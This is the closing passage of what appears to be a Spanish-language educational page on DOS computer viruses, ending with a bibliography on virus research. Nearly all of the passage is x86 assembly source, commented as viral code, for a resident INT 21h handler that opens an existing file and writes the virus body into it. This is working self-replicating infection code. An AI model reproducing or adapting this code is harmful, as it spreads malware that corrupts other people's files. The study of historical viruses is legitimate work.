                     mov ah, 3Dh                       ; | AH = 3Dh  
                    mov al, 2                         ; | AL = 2, lectura y escritura  
                    int 21h                           ; |_DOS API - Abrir archivo existente 
                    
                    jc exit                           ; si no se puede abrir archivo, restaurar y delegar  
                    xchg ax, bx                       ; handle de archivo en BX
                    
                    push cs  
                    pop ds                            ; MOV DS, CS
                    
                    mov ah, 40h                       ; | AH = 40h  
                    mov cx, virus_size                ; | CX = tamaño del virus  
                    mov dx, offset start              ; | DS:DX -> origen: inicio del código viral  
                    int 21h                           ; |_DOS API - Escribir en archivo/dispositivo

    close_file:     mov ah, 3Eh                       ; | AH = 3Eh  
                    int 21h                           ; |_DOS API - Cerrar archivo 

          exit:     pop ds                            ; restaurar registros  
                    pop si  
                    pop dx  
                    pop cx  
                    pop bx  
                    pop ax 
                    
                    pop cs:[ret_IP]  
                    pop cs:[ret_CS]  
                    popf
                    
                    push cs:[ret_EFLAGS]  
                    push cs:[ret_CS]  
                    push cs:[ret_IP]  
                    iret

      virus_size    equ ($ - start)                   ; tamaño del virus  
    vector_int21    dw ?, ?                           ; vector original de INT 21h (4 bytes)  
      ret_EFLAGS    dw ?                              ; registro de estado del CPU  
          ret_IP    dw ?                              ; puntero a la instrucción de retorno  
          ret_CS    dw ?                              ; segmento de código de retorno 

            eof:                                      ; fin de porción residente para TSR

           virus    ends  
             end    start  
{% endhighlight %}

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 